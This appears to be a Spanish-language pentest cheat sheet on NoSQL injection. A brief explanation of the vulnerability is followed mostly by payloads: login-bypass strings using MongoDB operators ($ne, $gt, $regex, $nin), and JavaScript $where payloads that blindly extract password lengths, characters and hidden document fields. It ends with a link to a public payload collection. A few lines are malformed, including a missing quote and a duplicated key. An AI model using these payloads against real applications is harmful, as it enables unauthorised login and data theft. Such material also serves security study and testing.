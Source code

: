 -- - 
Las inyecciones NoSQL son una vulnerabilidad de seguridad en las aplicaciones web que utilizan bases de datos NoSQL, como MongoDB, Cassandra y CouchDB, entre otras. Estas inyecciones se producen cuando una aplicación web permite que un atacante envíe datos maliciosos a través de una consulta a la base de datos, que luego puede ser ejecutada por la aplicación sin la debida validación o sanitización.

La inyección NoSQL funciona de manera similar a la inyección SQL, pero se enfoca en las vulnerabilidades específicas de las bases de datos NoSQL. En una inyección NoSQL, el atacante aprovecha las consultas de la base de datos que se basan en documentos en lugar de tablas relacionales, para enviar datos maliciosos que pueden manipular la consulta de la base de datos y obtener información confidencial o realizar acciones no autorizadas.

A diferencia de las inyecciones SQL, las inyecciones NoSQL explotan la falta de validación de los datos en una consulta a la base de datos NoSQL, en lugar de explotar las debilidades de las consultas SQL en las bases de datos relacionales.
-- - 
in DATA
```json
username[$ne]=toto&password[$ne]=toto
login[$regex]=a.*&pass[$ne]=lol
login[$gt]=admin&login[$lt]=test&pass[$ne]=1
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto
# For testing
'
'+'
'%2b'
' && '1' == '2 ---> url-encoded
' && '1' == '1 ---> url-encoded
administrator' && this.password.length > 7 || 'a'=='b  ---> url-encoded
administrator' && this.password[0] == 'k' || 'a'=='b ---> url-encoded
```

in JSON:
```json
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```

```json
{
	"username":"admin",
	"password":{
	"$regex":".{29}" --> Consulto si la longitud de la contraseña es = 29
	"$regex": "^.{29}$" 
	}				   
}

{
	"username":"admin",
	"password":{
	"$regex":"^a" --> Consulto si la contraseña empieza por a
	}				   
}

{
	"username":"carlos",
	"password":{"$ne":""
},
	"$where":  "function(){ if(Object.keys(this)[0].match('_id')) return 1; else 0;}" ---> Consulto si el primer atributo del documento es _id
}

{
	"username":"carlos",
	"password":{"$ne":""
},
	"$where": "function(){ if(Object.keys(this)[3].length == 1) return 1; else 0;}" ---> Consulto la longitud
}

## Luego la idea es moverse por el indice del array de documento para ir identificando los parametros que estan ocultos

{
	"username":"carlos",
	"password":{"$ne":""
},
	"$where": "function(){ if(Object.keys(this)[4].match(/^a/)) return 1; else 0;}" ---> Consulto por que letra empieza
}


{
	"username":"carlos",
	"password":{"$ne":""},
	"$where":"function(){ if(this.changePwd.length == 1) return 1; else 0;}" ---> Consulto la longitud del campo escondido
}

{
	"username":"carlos",
	"password":{"$ne":""},
	"$where":"function(){ if(this.changePwd.match(/^a/)) return 1; else 0;}" ---> Consulto por que letra empiza el campo escondido
}


```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
-- - 
